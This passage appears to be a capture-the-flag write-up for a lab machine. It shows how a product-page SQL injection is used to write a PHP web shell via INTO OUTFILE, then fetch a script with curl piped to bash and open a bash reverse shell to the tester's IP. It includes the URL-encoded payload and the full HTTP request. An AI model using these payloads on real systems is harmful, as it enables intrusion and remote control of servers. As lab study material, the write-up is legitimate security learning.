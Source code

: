 ```
Server: Apache/2.4.54 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 23
Connection: close
Content-Type: text/html; charset=UTF-8

Product does not exist!
```

So now we know we can bypass the filter. The next step is to create a good sqli payload. I played around with many different payloads though noticed it was not possible to find any interesting data in the database itself. But then combining the knowledge we gained from the index page it came to me: we can just upload a php file somewhere that isn't in the webroot and then call it using the index.php page parameter. 

So knowing that this application is using mysql in the backend i searched for a querry that would allow me to write a file. In this query i'd just write a  php oneliner giving me the power to execute a shell command. The **INTO** sql statement allows a user to dump the results of a query into a file we can then use in combination with a select statement of a string value. It would look something like this:

```
select '<?php system("curl http://10.10.14.153/shell.sh|bash");?>' into outfile '/var/lib/mysql/calico.php'
```

The writing path might look a bit odd but when i was testing this i noticed i wasn't able to write anywhere else so i ended up trying to write in the mysql default directory since there it should always be allowed to write files. Additionally you migh be wondering why do i use a curl command to load this script. Well when trying this without this method the connection would die instantly. 

Create a file with a basic bash reverse shell in it and write it to a file named shell.sh

```
/bin/bash -l > /dev/tcp/10.10.14.153/443 0<&1 2>&1
```
Next run the python http.server module to make that directory into a webserver 

```
python3 -m http.server 80 
```

So now we know our payload the next step is to break out of the sql statement and properly URL encoding this payload. We'd end up with the following payload

```
%0A'%3bselect+'<%3fphp+system("curl+http%3a//10.10.14.153/shell.sh|bash")%3b%3f>'+into+outfile+'/var/lib/mysql/calico3.php'+%231
```

I sent the following request with this  payload.

```
GET /shop/index.php?page=product&id=%0A%27%3bselect+%27%3C%3fphp+system(%22curl+http%3a//10.10.14.153/shell.sh|bash%22)%3b%3f%3E%27+into+outfile+%27/var/lib/mysql/calico3.php%27+%231 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=73lml6dp7ndhvc7f29dn95el34
Upgrade-Insecure-Requests: 1
```
The server then issues the following response because we didn't return a valid product
